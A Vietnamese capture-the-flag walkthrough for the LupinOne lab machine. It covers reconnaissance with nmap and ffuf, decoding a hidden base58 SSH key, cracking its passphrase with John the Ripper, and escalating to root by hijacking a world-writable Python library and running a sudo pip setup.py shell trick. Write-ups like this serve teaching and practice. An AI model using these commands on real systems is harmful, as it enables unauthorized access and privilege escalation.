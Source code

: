 ## Step 1
Máy LupinOne

![image](https://user-images.githubusercontent.com/97771705/222322292-994cb730-ae7e-4707-a1e6-db79ccfe6bd3.png)

Tại máy Kali, nhập lệnh **netdiscover -r 10.0.2.0/24** để tìm kiếm ip của máy Lupin

![image](https://user-images.githubusercontent.com/97771705/222322533-3a8528a7-6f13-40ae-8411-47ff2b94e9ca.png)

Sử dụng lệnh **nmap -sC -sV 10.0.2.4**
-sC: Chạy các scripts mặc định để tìm kiếm các lỗ hổng
-sV: Hiển thị cả version của các dịch vụ đang chạy trên port mở

![image](https://user-images.githubusercontent.com/97771705/222322990-7565d92b-022d-4686-97f1-0a41c2b17313.png)

Ta tìm thấy 2 port:
- Port 22 có SSH server
- Port 80 có Apache Sever và 1 file /~myfiles

Ta thử đọc ~myfiles

![image](https://user-images.githubusercontent.com/97771705/222323732-50598bf4-b7bd-4fab-bd34-9e386fe4e7f1.png)

Lỗi 404 not found, tiếp tục nhấn f12 để xem source code

![image](https://user-images.githubusercontent.com/97771705/222323930-96023d8a-aa11-4335-84b0-dcdb131c1279.png)

## Step 2
Tiến hành fuzzing để tìm kiếm thư mục ẩn
Ta dùng lệnh **ffuf -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u 'http://10.0.2.4/~FUZZ'**
+ Sử dụng công cụ **ffuf** để thực hiện directory attack, tìm kiếm xem có thư mục nào có tên trong list hay không
+ **-c** là khi tìm thấy thì in màu nổi bật hơn (như hình thì là màu xanh)
+ **-w** là path tới tập tin danh sách từ điển đối chiếu. Trên kali có sẵn tại path **/usr/share/wordlists/dirbuster/**, và ta chọn tệp **directory-list-2.3-small.txt**
+ **-u** là URL muốn fuzz, trong đó  **FUZZ** là vị trí cần tìm 
+ **~** được sử  dụng cho cả thư mục lẫn tệp

![image](https://user-images.githubusercontent.com/97771705/222328117-df4ea8bb-07cc-4ef3-b513-43801cdcae9a.png)

![image](https://user-images.githubusercontent.com/97771705/222328143-f96fd0da-7054-4640-ba3d-6f82b262d87d.png)

Truy cập **http://10.0.2.4/~secret** 

![image](https://user-images.githubusercontent.com/97771705/222328385-2bc8f2aa-75bf-4985-b334-a8b2c51efb95.png)

Thông tin cho ta biết SSH private key đang nằm đâu đó trong thư mục này. Ta phải tìm và crack passphrase của private key đó
Ta dùng lệnh **ffuf -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u 'http://10.0.2.4/~secret/.FUZZ' -e .txt,.html**
+ **.** sử dụng cho tệp
+ **-e .txt,.html** để tìm kiếm file với đuôi txt, html

![image](https://user-images.githubusercontent.com/97771705/222330744-4bd68b23-7f11-437b-8878-4242bc1f951f.png)

Ta tìm thấy file **mysecret.txt** 
Truy cập thử 

![image](https://user-images.githubusercontent.com/97771705/222330959-c0104c45-999b-4a47-bf4e-cf60e55e1ce3.png)

Đưa lên dcode.fr, phát hiện đây là mã base58

![image](https://user-images.githubusercontent.com/97771705/222331199-b8bc25b8-40a5-4ce5-9498-983b74712268.png)

Giải mã base 58, ta được open ssh private key

![image](https://user-images.githubusercontent.com/97771705/222331415-ea5b41dc-6563-4817-9122-1c0d64906cef.png)

## Step 3
Private key này có passphrase bảo vệ. Hiểu đơn giản passphrase là một mật khẩu được sử dụng để bảo vệ và mã hóa private key SSH. Khi tạo ra private key, người dùng có thể tạo ra một passphrase để đảm bảo rằng chỉ có người dùng được ủy quyền mới có thể sử dụng private key. Khi một người dùng muốn sử dụng private key, họ sẽ được yêu cầu nhập passphrase để giải mã key trước khi sử dụng nó. Điều này giúp đảm bảo an toàn cho key trong trường hợp nó bị đánh cắp hoặc lộ ra ngoài.

Lưu SSH Private Key vào 1 file **key.txt**

Sử dụng tool **John the Ripper** để Brute-force passphrase của SSH Private Key

Command **ssh2john** của John the Ripper được sử dụng để chuyển đổi private key của SSH sang định dạng mà John the Ripper có thể sử dụng để tấn công bằng cách thử các passphrase khác nhau.

Sử dụng lệnh **/usr/share/john/ssh2john.py key.txt > pass.txt**

![image](https://user-images.githubusercontent.com/97771705/222358294-2edff0bb-f19d-4c30-846e-919554270e0e.png)

Trong **~secret** cũng đề cập tới fasttract. Đây là 1 file có sẵn trong wordlist của kali, có thể sử dụng để bruteforce

Sử dụng lệnh **john pass.txt --wordlist=/usr/share/wordlist/fasttract.txt**

![image](https://user-images.githubusercontent.com/97771705/222359062-465d986e-97f0-42a2-9432-87b0f89e346c.png)

Bruteforce thành công passphrase của SSH private key! (P@55w0rd!)

## Step 4
Sử dụng lệnh **ssh -i key.txt icex64@10.0.2.4**
+ **-i key.txt** chỉ định đường dẫn tới file chứa private key để đăng nhập vào máy chủ từ xa. File key này sẽ được sử dụng để xác thực cho việc đăng nhập, thay vì sử dụng mật khẩu.
+ icex64 là tên người dùng trên máy chủ từ xa mà ta muốn đăng nhập.
+ 10.0.2.4 là địa chỉ IP của máy chủ từ xa mà ta muốn truy cập.

Sau khi nhập đúng passphrase, đăng nhập thành công LupinOne

![image](https://user-images.githubusercontent.com/97771705/222363678-787c115d-bc33-4bcc-9898-c8cab33af860.png)

Tìm kiếm thư mục của máy 

![image](https://user-images.githubusercontent.com/97771705/222363964-ecf32a13-7716-4305-910b-e1f9a16261c1.png)

Đọc **user.txt** ta được flag đầu tiên

![image](https://user-images.githubusercontent.com/97771705/222364174-a1f92062-8d93-4db0-85a8-426f21d94908.png)

> 3mp!r3{I_See_That_You_Manage_To_Get_My_Bunny}

## Step 5
Dùng vài lệnh cơ bản để kiểm tra tên người dùng và các thư mục thông thường

![image](https://user-images.githubusercontent.com/97771705/222367163-323cb1fe-e204-4379-97d2-72c42f03aaf5.png)


Sử dụng lệnh **sudo -l** để xem quyền của user icex64, nó sẽ hiển thị danh sách các lệnh mà người dùng hiện tại được phép thực thi với đặc quyền hạn của tài khoản root hoặc các tài khoản khác có quyền truy cập đặc biệt.

![image](https://user-images.githubusercontent.com/97771705/222366966-1e5d0434-28a5-425e-ba74-88a62990e783.png)

icex64 có thể run 1 tập tin python. Đọc thử

![image](https://user-images.githubusercontent.com/97771705/222367836-7f6f99a7-0a38-4ec2-ad74-c265365d97cf.png)

Ta thử tìm kiếm file có quyền rwx cho tất cả người dùng bằng lệnh **find / -type f -perm -ug=rwx**
![image](https://user-images.githubusercontent.com/97771705/222369987-c0272716-e84f-41f7-9bc2-8db7f23722f2.png)

File python mà icex64 có thể run chứa đoạn import webbrowser, đây cũng có tập tin webbrowser.py

Xem quyền sở hữu của file webbrowser.py -> người dùng root
![image](https://user-images.githubusercontent.com/97771705/222373300-17896e59-2829-45f9-b0e7-5b829d44a25e.png)

Quyền của file này là 777, tức là bản thân icex64 cũng có thể chỉnh sửa, thực thi file -> bắt đầu leo thang đặc quyền.

## Step 6
Sử dụng lệnh nano để chỉnh sửa tệp. Thêm **os.system("/bin/bash")**
![image](https://user-images.githubusercontent.com/97771705/222376371-137c621a-6cf8-49e0-a1cd-6a9f62cc83de.png)

```
Trong Python, "os.system()" là một hàm cho phép thực thi các lệnh hệ thống hoặc các tiến trình bên ngoài. Khi chạy lệnh "os.system("/bin/bash")", nó sẽ thực thi lệnh "/bin/bash" trên hệ thống.

Lệnh "/bin/bash" được sử dụng để mở một cửa sổ dòng lệnh Bash trên hệ thống Linux hoặc macOS. Nếu lệnh được thực thi thành công, một cửa sổ dòng lệnh Bash mới sẽ được mở ra, cho phép người dùng nhập các lệnh để thực thi trên hệ thống.
```

Nhập lệnh **sudo -u arsene /usr/lib/python3.9 /home/arsene/heist.py**
![image](https://user-images.githubusercontent.com/97771705/222379224-0d08f4ec-aa8c-4e69-881c-de6ef03cbad4.png)

Xem 1 vài file trên home của arsene

![image](https://user-images.githubusercontent.com/97771705/222381533-ea7d720e-4c14-4377-bc9c-013b85778e7e.png)

User arsene có quyền root thực thi file /usr/bin/pip

![image](https://user-images.githubusercontent.com/97771705/222385595-4529dc20-92f1-4ac3-8a53-97dbf18e2b5c.png)

Thực thi 3 lệnh sau
```
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo pip install $TF
```
![image](https://user-images.githubusercontent.com/97771705/222388785-008e7b0d-f9db-4e0a-a264-252e2c3c550c.png)
![image](https://user-images.githubusercontent.com/97771705/222388841-cd4fd85f-eb76-4f24-a07c-f66b3d6e45a0.png)

>3mp!r3{congratulations_you_message_to_pwn_the_lupin1_box}


